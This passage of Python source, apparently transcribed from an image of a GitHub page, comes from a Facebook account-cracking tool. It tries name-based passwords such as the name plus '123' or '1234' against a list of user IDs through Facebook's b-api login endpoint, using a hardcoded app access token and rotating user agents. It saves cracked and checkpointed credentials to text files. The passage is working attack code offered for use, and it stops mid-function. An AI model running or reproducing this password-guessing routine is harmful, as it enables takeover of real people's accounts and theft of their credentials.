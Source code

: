 	elif select =="0":
	    menu()
	else:
		print("")
		print("\tSelect valid option")
		print("")
		crack_select()
	print("\x1b[1;93m  Total IDs :\x1b[1;92m "+str(len(id)))
	print("\x1b[1;93m  The Process has been started âœ“")
	print("\x1b[1;93m  Plzz wait to Crack idzz")
	print("\x1b[1;93m  Press ctrl + z to stop")
	print(47*"-")
	print("")
	def main(arg):
		user=arg
		uid,name=user.split("|")
		ranagent = random.choice(agents)
		biran = random.choice(birth)
		session = requests.Session()
		session.headers.update({'User-Agent': ranagent})
		try:
			pass1 = name.lower()+"123"
			data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass1+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
			q = json.loads(data)
			if "access_token" in q:
				print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("MAHADI-HASANok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("Prince-Alimcp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = name.lower()+"1234"
					data = session.get("https://b-api.facebook.com/method/auth.login?format=json&email="+uid+"&password="+pass2+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=header).text
					q = json.loads(data)
					if "access_token" in q:
						print(" \033[1;32m [Prince-Alim-OK] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("Prince-Alimok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print(" \033[1;33m [Prince-Alim-CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("Prince-Alimcp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)